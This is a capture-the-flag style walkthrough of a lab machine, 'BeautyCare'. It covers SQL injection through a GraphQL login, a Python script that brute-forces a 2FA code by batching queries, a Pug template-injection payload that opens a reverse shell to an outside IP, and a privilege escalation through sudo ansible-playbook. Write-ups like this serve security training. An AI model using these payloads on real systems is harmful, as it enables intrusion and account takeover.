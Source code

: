 # BeautyCare

## Initial Foothold

Doing an `nmap` scan showed an Nginx server at port 80.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: El BeautyCare
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Running a GoBuster scan on the webserver revealed the `/admin` and `/graphql` endpoints.

When visiting the `/admin` endpoint, we see a login panel. The credentials are sent as a POST request to the `/graphql` endpoint.

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"test\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

By fuzzing both the `username` and `password` fields, we quickly find that there is an SQL injection through the `username` field.

{% code overflow="wrap" %}
```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1
```
{% endcode %}

To quickly exploit this, I used SQLmap and specified a custom injection point:

{% code overflow="wrap" %}
```http
POST /graphql HTTP/1.1
Host: 10.129.255.102
Content-Length: 118
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.72 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.255.102
Referer: http://10.129.255.102/admin
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

{"query":"mutation {\n    LoginUser(username: \"*\", password: \"test\"){\n        message,\n        token    \n}\n}"}
```
{% endcode %}

These gave the credentials `john:iamcool`. Upon logging in, though, we are prompted for our 2FA OTP. Since it was a 4-digit number, there were 10,000 possible OTP codes.

In GraphQL, a mechanism known as [batching](https://www.apollographql.com/blog/apollo-client/performance/batching-client-graphql-queries/) allows us to send multiple GraphQL queries in a single HTTP request. So instead of sending a single `verify2FA` mutation like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify2FA(otp: \"0000\"){ message, token }"}
```
{% endcode %}

We could send multiple mutations like so:

{% code overflow="wrap" %}
```json
{"query":"mutation {verify0: verify2FA(otp: \"0000\"){ message, token } verify1: verify2FA(otp: \"0001\"){ message, token }"}
```
{% endcode %}

This allows us to bruteforce a significant number of OTP codes in a single request, reducing the total number of HTTP requests needed. However, due to limitations on the total length of a single request body, we still need to split the search space into multiple requests.

In the following script, we split the search space into 10 HTTP requests, each testing 1,000 OTP codes.

```python
import requests
import time

for i in range(10):
    res = ""
    for i in range(i * 1000, (i + 1) * 1000):
        res += f"verify{i}: verify2FA(otp: \"{str(i).zfill(4)}\"){{ message, token }}"

    qry = "mutation {" + res + "}"

    r = requests.post("http://10.129.255.102/graphql",
        json={"query": qry},
        headers={"Content-Type": "application/json"},
        cookies={
            "session": "<SESSION-COOKIE>"
        }, 
        proxies={'http': 'http://localhost:8080'}
    )

    data = r.json()['data']
    for key, value in data.items():
        if value != None:
            print(key, value)

    time.sleep(2)
```

This allows us to find the correct code in a couple of seconds.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Now, we can head over to the admin dashboard at `/admin/dashboard`. We are presented with a UI for saving and previewing email templates, which leads us to believe that there might be an [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) vulnerability.

From the HTTP response headers, we could also gather that the server was running an Express.js application, allowing us to narrow down the templating engine as [Pug](https://pugjs.org/).

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Using the following payload, we can spawn a reverse shell when previewing the template, allowing us to get a shell as `john`.

{% code overflow="wrap" %}
```java
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('bash -i >& /dev/tcp/10.10.14.33/1337 0>&1')}()}
```
{% endcode %}

## Privilege Escalation

Running LinPEAS on the target server revealed that `john` can run `ansible-playbook` with sudo privileges.

```
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
```

To exploit this, we create a playbook that assigns SUID permissions to `/bin/bash`.

```yaml
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```

Then we can just run `sudo ansible-playbook pwn.yml` to run the playbook's command as `root`, and then `bash -p` to gain a bash shell with root privileges through the SUID permission.
